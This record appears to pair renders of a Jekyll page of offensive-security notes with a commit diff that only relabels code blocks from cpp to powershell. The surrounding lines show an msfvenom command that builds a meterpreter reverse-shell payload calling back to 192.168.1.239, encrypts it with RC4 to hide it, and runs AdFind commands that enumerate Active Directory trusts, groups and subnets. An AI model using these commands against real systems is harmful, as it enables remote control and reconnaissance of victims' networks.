

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from offensive-notes.md, in a window 1280 px wide and 900 px high, scrolled down 8610 px. Shown: the part 372-851 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update offensive-notes.md

````diff
--- a/offensive-notes.md
+++ b/offensive-notes.md
@@ -428,7 +428,8 @@
 ```
 
 #### Encrypted Msfvenom shellcode
-	```cpp
+
+	```powershell
 	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin
 	cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
 	xxd -i encmeter.bin
@@ -439,7 +440,7 @@
 
 #### AdFind Enumerations
 
-	```cpp
+	```powershell
 	C:\Windows\system32\cmd.exe /C adfind.exe -gcb -sc trustdmp > trustdmp.txt
 	C:\Windows\system32\cmd.exe /C adfind.exe -f "(objectcategory=group)" > ad_group.txt
 	C:\Windows\system32\cmd.exe /C adfind.exe -subnets -f (objectCategory=subnet)> subnets.txt
````
